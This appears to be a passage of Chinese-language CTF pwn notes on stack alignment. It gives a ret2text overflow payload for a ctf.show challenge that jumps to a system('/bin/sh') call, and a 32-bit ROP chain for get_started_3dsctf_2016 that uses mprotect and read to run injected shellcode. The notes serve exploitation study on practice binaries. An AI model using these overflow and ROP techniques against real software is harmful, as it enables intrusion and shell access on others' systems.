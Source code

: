 ### 栈对齐

<span id="stack_align"></span>
见 ctf.show - pwn06

payload = b"a" \* 0x14 + p64(0x40057B)

```
.text:0000000000400577                 public getFlag
.text:0000000000400577 getFlag         proc near
.text:0000000000400577 ; __unwind {
.text:0000000000400577                 push    rbp
.text:0000000000400578                 mov     rbp, rsp
.text:000000000040057B                 lea     rdi, command    ; "/bin/sh"     --- 从这里执行少push一步， 免用retn
.text:0000000000400582                 mov     eax, 0
.text:0000000000400587                 call    _system
.text:000000000040058C                 nop
.text:000000000040058D                 pop     rbp
.text:000000000040058E                 retn
.text:000000000040058E ; } // starts at 400577
.text:000000000040058E getFlag         endp
```

或者
payload = b"a" \* 0x14 + p64(0x40058E) + p64(0x400577)

### 栈对齐 2 + mprotect -- get_started_3dsctf_2016

手动压栈调用--栈不平衡问题。 [get_started_3dsctf_2016](https://www.cnblogs.com/lyxf/p/12113401.html)
mprotect 调 3 个函数，没有进行压栈，需要 pop3 个出来。

`int mprotect(const void *start, size_t len, int prot);`

```python
mem_addr = 0x80EB000 #可读可写的内存,但不可执行
mem_size = 0x1000    #通过调试出来的值
mem_proc = 0x7       #可代表可读可写可执行

mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']

'''
为了连续在堆栈中执行,就是用pop3_ret来控制esp,使它往下弹掉已用的3个值.

'''
payload_01 = 'A' * 0x38
payload_01 += p32(mprotect_addr)
payload_01 += p32(pop3_ret) #执行完mprotect的返回地址,使esp往下+12

#mprotect 的三个参数
payload_01 += p32(mem_addr)   #mprotect函数参数1 修改的内存地址
payload_01 += p32(mem_size)   #mprotect函数参数2 修改的内存大小
payload_01 += p32(mem_proc)   #mprotect函数参数3 修改的权限

payload_01 += p32(read_addr) #执行完pop3_ret后弹到read地址

payload_01 += p32(pop3_ret)  #执行完read后将返回到pop3_ret指令,又继续使esp+12

#read 的三个参数
payload_01 += p32(0)     #read函数参数1 ,从输入端读取
payload_01 += p32(mem_addr)   #读取到的内容复制到指向的内存里
payload_01 += p32(0x100) #读取大小

payload_01 += p32(mem_addr)   #执行完read后ret esi

```